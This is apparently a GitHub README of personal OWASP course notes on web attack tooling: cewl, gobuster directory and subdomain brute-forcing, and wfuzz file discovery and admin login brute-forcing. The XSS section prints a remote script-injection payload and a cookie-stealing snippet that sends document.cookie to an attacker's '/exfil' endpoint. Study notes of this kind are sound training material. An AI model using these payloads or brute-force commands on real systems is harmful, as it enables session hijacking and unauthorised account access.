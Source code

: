 # OWASP Course Notes Repository

This repository contains my personal notes from the recently released OWASP course, which consists of video lessons. I created this repository on GitHub to store the notes that will be useful to me in the future.

---

# CEWL - Wordlist Generation

To generate dictionaries, use the cewl tool.

---

# Gobuster - Directory and Subdomain Bruteforcing

Gobuster is a tool that helps with directory and subdomain bruteforcing.
Repository: https://github.com/OJ/gobuster
Installation command:
```
go install github.com/OJ/gobuster/v3@latest
```
Example usage:

```
gobuster dir -u http://188.72.108.59:10008/ -w /usr/share/dirb/wordlists/common.txt -t 5
gobuster dns -d <site.com> -w /usr/share/dirb/wordlists/common.txt #subdomains
```

--- 

# Wfuzz - File and Login Page Bruteforcing

Wfuzz is a tool for file and login page bruteforcing.

Example usage:

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "<site.com>" #files discovery
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt -hc 404 -d "username=admin&password=FUZZ" -hh <number of incorrect bytes> "<site.com>" #bruteforce login page
```

# XSS (Cross-Site Scripting)

Reflected XSS: Creating a malicious link that needs to be sent to someone.
Stored XSS: Embedding a trap directly into the website.

Examples:
If you need to create an alert in an `<h1>` tag:

```
<img src='x' onerror='alert(1)'>
```

Injection:

```
<script src="http://<ip of your box>/xss.js"></script>
```

Cookie Stealing and Data Exfiltration

To obtain the cookie file:

```
let cookie = document.cookie;
let encodedCookie = encodeURIComponent(cookie);
fetch("http://<ip>/exfil?data=" + encodedCookie);
```

Contribution

Feel free to contribute to this repository by adding more notes or suggesting improvements.